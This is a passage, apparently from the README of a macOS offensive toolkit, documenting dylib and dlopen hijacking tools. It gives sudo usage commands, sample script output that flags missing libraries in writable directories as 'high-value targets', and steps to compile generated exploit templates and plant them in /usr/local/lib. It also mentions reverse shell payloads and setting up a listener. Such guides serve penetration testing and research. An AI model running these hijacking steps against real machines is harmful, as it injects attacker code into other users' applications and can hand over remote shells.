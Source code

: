 **What to do after running:**
1. If you chose to deploy the dylib, launch the target application to test the hijack
2. Check for log messages in the system log: `sudo log stream | grep "Dylib hijack"`
3. Look for the log file at `/tmp/dylib_hijack.log`
4. For reverse shell payloads, set up a listener on the specified port before running the target app
5. For custom script payloads, ensure your script is executable and properly configured

### 6. dlopen Hijacking Script
`tools/dlopen_hijack.sh` helps identify and exploit dlopen hijacking opportunities.

**Usage:**
```bash
sudo ./tools/dlopen_hijack.sh <path_to_application> [args]
```

**Example:**
```bash
sudo ./tools/dlopen_hijack.sh /Applications/Example.app/Contents/MacOS/Example
```

**Expected Output:**
```
=================================================
        dlopen Hijacking Script
=================================================
[+] Target application: /Applications/Example.app/Contents/MacOS/Example
[+] Setting up monitoring environment...
[!] Enter a library name pattern to filter (e.g., 'lib' or '.dylib'), or leave blank for all:
[!] Using default pattern: .dylib
[+] Starting filesystem monitoring...
[+] Launching application: /Applications/Example.app/Contents/MacOS/Example
[!] Use the application normally to trigger dlopen calls, then exit.
[!] Press Ctrl+C in this terminal when done...

[+] Stopping monitoring...
[+] Processing results...
[+] Checking for dlopen hijacking opportunities...
[!] High-value target: /usr/local/lib/libexample.dylib
    File doesn't exist but directory is writable!
[!] Missing file: /Applications/Example.app/Contents/Resources/plugins/libplugin.dylib
[+] Analysis complete!
[+] Found 1 high-value hijacking opportunities
[+] Results saved to: dlopen_hijack_report_20230505_143045.txt
[+] Exploit templates created in: /var/folders/zz/zyxvpxvq6cz_n67653jq4drr000gn/T/tmp.XXXXXXXX/exploit_templates/
[!] Would you like to keep the exploit templates? (y/n): y
[+] Templates copied to: ./dlopen_exploit_templates_20230505_143045
```

**Next steps with the results:**
1. Review the detailed report to understand what libraries the application is trying to load
2. Examine the "high-value targets" - libraries that don't exist but could be created
3. Check the exploit templates generated for each potential target
4. Compile and deploy the exploit template for testing:
   ```bash
   cd dlopen_exploit_templates_20230505_143045
   gcc -dynamiclib -o "libexample.dylib" "libexample.dylib.c"
   sudo cp "libexample.dylib" "/usr/local/lib/libexample.dylib"
   ```
5. Run the target application again to verify the hijack was successful
6. Check for the proof file at `/tmp/dlopen_hijack_proof.txt`
